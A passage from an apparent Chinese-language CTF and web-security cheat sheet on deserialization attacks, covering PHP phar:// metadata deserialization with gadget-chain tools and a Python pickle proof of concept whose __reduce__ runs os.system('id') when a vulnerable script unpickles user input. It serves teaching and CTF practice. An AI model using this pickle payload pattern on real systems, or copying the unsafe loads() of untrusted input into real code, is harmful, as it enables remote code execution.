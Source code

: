 - Phar:// 反序列化
  - phar文件會將使用者自定義的metadata以序列化形式保存
  - 透過`phar://`偽協議可以達到反序列化的效果
  - 常見影響函數: `file_get_contents()`, `file_exists()`, `is_dir()`, ...
  - Generic Gadget Chains
    - [phpggc](https://github.com/ambionics/phpggc)
  - Example
    - HITCON CTF 2017 - Baby^H Master PHP 2017
    - HITCON CTF 2018 - Baby Cake
    - DCTF 2018 - Vulture

## Python Pickle

- `dumps()` 將物件序列化成字串
- `loads()` 將字串反序列化

Example:

a.py:

```python
import os
import cPickle
import sys
import base64

class Exploit(object):
  def __reduce__(self):
    return (os.system, ('id',))

shellcode = cPickle.dumps(Exploit())
print base64.b64encode(shellcode)
```

b.py:

```python
import os
import cPickle
import sys
import base64

s = raw_input(":")

print cPickle.loads(base64.b64decode(s))
```

```
$ python a.py > tmp
$ cat tmp | python b.py
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),110(lxd)
```

## Ruby/Rails Marshal
